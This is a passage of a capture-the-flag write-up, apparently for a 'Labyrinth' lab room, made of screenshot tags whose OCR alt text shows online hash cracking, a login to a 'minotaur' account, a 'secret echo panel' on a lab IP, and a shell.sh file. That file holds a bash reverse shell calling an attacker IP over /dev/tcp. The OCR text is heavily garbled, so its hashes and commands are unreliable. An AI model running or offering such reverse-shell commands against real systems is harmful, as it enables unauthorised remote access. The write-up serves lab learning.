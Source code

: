 style="width:6.20833in;height:2.8in"
alt="r up to 20 no one line: ausae2eb68c7ed28dcdeabd5a2ba fae eb3bebe266a81fbfaa7gdb16e4cae67f 083 fg66a6fsagcff9c6e1c52beaa635b b8e4c23686a3a12476ad777ge3Sf5eb6 176sdb9457fag6a3985g20gee81fbdaa NTLM. moa, mos. shaE4, MySQL b3bebe266aB1fbfaa79db1604c4e67f 3f966a6f5a9cff9c6e1c52beaa635b PutiN mNcn I &#39;m not a robot Crack Hashes " />

login in to minotaus account

<img src="Labyrinth-Fast/media/image18.png"
style="width:4.95in;height:0.625in"
alt="Home About secret_Stutf Logout " />

<img src="Labyrinth-Fast/media/image19.png"
style="width:5.775in;height:4.59167in"
alt="c O a 10.10.65.721echo.php •a Google Hacking DB PaytoadsAllTheThings... Vigenere Solver . •an.v... Welcome to my secret echo-pannel... echo something _ Q echo " />

<img src="Labyrinth-Fast/media/image20.png"
style="width:5in;height:1.1in"
alt="kali S kali ) - C—/Desktop/ctf/Labyrinth] cat shell . sh /bin/bash /bin/bash -i /dev/tcp/1ø.9.1.229/9øø1 0&gt;81 " />
